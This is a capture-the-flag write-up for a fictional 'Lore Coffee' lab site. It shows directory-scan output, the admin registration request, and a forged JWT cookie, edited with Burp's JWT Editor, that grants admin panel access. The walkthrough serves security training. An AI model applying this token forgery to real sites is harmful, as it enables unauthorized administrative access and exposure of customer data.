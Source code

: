 #+title: Coffe Shop
#+author: gabriel

* intro
We are on the trail of a mysterious hacker. This hacker operates anonymously on social media and one particular post caught our attention:

"I can't start my day without the coffee latte I order every morning #LoreCoffee"

This post reveals the hacker's daily habits and his fondness for Lore Coffee. Using this information, we have an opportunity to discover his true identity. Your task is to hack into Lore Coffee's online ordering system and administration page to reveal the hacker's identity. This will require you to identify vulnerabilities in the cafe's digital infrastructure, exploit them in some way, and identify the hacker through the order history.

Good luck!

* initial scan
#+begin_src sh
200      GET        5l      351w    19188c http://lorecoffee.hv/static/public/assets/js/
popper.min.js
200      GET     2752l     5063w    41439c http://lorecoffee.hv/static/public/assets/css
/main.css
200      GET      333l     1628w   138241c http://lorecoffee.hv/static/public/assets/img
/g5.jpg
200      GET      264l     1746w   151766c http://lorecoffee.hv/static/public/assets/img
/b1.jpg
200      GET        4l     1338w    85577c http://lorecoffee.hv/static/public/assets/js/
vendor/jquery-2.2.4.min.js
200      GET      510l     2631w   215521c http://lorecoffee.hv/static/public/assets/img
/g4.jpg
200      GET        1l       10w     6160c http://lorecoffee.hv/static/.DS_Store
200      GET      423l     2008w   167693c http://lorecoffee.hv/static/public/assets/img
/g1.jpg
200      GET        5l        8w      109c http://lorecoffee.hv/static/
301      GET        0l        0w        0c http://lorecoffee.hv/static/private => privat
e/
200      GET     8070l    15251w   149340c http://lorecoffee.hv/static/public/assets/css
/bootstrap.css
200      GET      918l     4976w   441507c http://lorecoffee.hv/static/public/assets/img
/g3.jpg
200      GET      464l     1425w    17595c http://lorecoffee.hv/
301      GET        0l        0w        0c http://lorecoffee.hv/static/public => public/
301      GET        0l        0w        0c http://lorecoffee.hv/static/public/assets =>
assets/
301      GET        0l        0w        0c http://lorecoffee.hv/static/public/assets/js
=> js/
301      GET        0l        0w        0c http://lorecoffee.hv/static/public/assets/css
 => css/
301      GET        0l        0w        0c http://lorecoffee.hv/static/public/assets/img
 => img/
303      GET        2l        3w       44c http://lorecoffee.hv/adminpanel/ => http://lorecoffee.hv/adminpanel/login
200      GET       57l      129w     2086c http://lorecoffee.hv/adminpanel/login
303      GET        2l        3w       44c http://lorecoffee.hv/adminpanel => http://lorecoffee.hv/adminpanel/login
403      GET        9l       28w      278c http://lorecoffee.hv/server-status
[################>---] - 2m    126091/150053  21s     found:38      errors:15995
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_lorecoffee_hv_-1760230327.state ...
[################>---] - 2m    126102/150053  21s     found:38      errors:15995
[#################>--] - 2m     25523/30000   216/s   http://lorecoffee.hv/
[################>---] - 2m     25371/30000   219/s   http://lorecoffee.hv/static/
[################>---] - 2m     25116/30000   218/s   http://lorecoffee.hv/static/public/
[################>---] - 2m     25143/30000   219/s   http://lorecoffee.hv/static/private/
[################>---] - 2m     24860/30000   218/s   http://lorecoffee.hv/static/public/assets/
#+end_src

*admin page login* ->
#+begin_src sh
http://lorecoffee.hv/adminpanel/login
#+end_src

*registration endpoint in admin panel*
#+begin_src sh
http://lorecoffee.hv/adminpanel/register
#+end_src

it is possible to create an account and access the application, but when accessing we receive a message that we are not an administrator.

Request to register ->
#+begin_src sh
POST /adminpanel/register HTTP/1.1
Host: lorecoffee.hv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

username=jon&email=jon@email.com&password=admin123
#+end_src

After registering the user, log in to the application and we receive the message that we are not an admin

It is possible to verify that the application uses Json Web Tokens, get it and use the burp JWT Editor extension

Send the request with the modified JWT
#+begin_src sh
GET /adminpanel HTTP/1.1
Host: lorecoffee.hv
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lorecoffee.hv/adminpanel/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NjA3MDgxOTAsImlkIjoxfQ.OM0hoV57yrGI_9oRBCPJp-qoPf4J8x7tW0FpM9FCl9o
Connection: keep-alive
#+end_src

And now we are in the application.
